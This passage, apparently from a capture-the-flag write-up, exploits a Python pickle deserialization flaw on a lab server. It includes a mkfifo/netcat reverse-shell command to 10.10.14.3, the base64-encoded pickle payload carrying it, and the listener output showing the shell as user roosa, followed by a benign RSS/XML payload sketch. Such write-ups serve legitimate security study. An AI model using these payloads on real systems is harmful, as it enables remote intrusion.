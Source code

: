 There's a 500 error from the server, but also pings at `tcpdump`. So
that's RCE.

Now get a shell. Just re-run the python code with a new command:



    >>> base64.urlsafe_b64encode(pickle.dumps(Exploit('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f')))
    'Y3Bvc2l4CnN5c3RlbQpwMQooUydybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC4zIDQ0MyA-L3RtcC9mJwpwMgp0UnAzCi4='



Post that string, and:



    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.3] from (UNKNOWN) [10.10.10.91] 43402
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1002(roosa) gid=1002(roosa) groups=1002(roosa),4(adm),27(sudo)



### RSS Spec

I used the RSS feed from this blog to build an XML payload that would
validate when submitted to the server. An alternative path would be to
look at the [w3 specification for
RSS](https://validator.w3.org/feed/docs/rss2.md#hrelementsOfLtitemgt),
where it defines items:

> Elements of \<item\>
>
> A channel may contain any number of \<item\>s. An item may represent a
> "story" -- much like a story in a newspaper or magazine; if so its
> description is a synopsis of the story, and the link points to the
> full story. An item may also be complete in itself, if so, the
> description contains the text (entity-encoded HTML is allowed), and
> the link and title may be omitted. All elements of an item are
> optional, however at least one of title or description must be
> present.

It lists valid elements, including author.

So if I try building an xml payload to match this spec, but also taking
into account the elements the site says should be there, I'll end up
with something like this:



    <item>
    <Author>0xdf</Author>
    <Subject>Testing</Subject>
    <Content>This is a test</Content>
    </item>
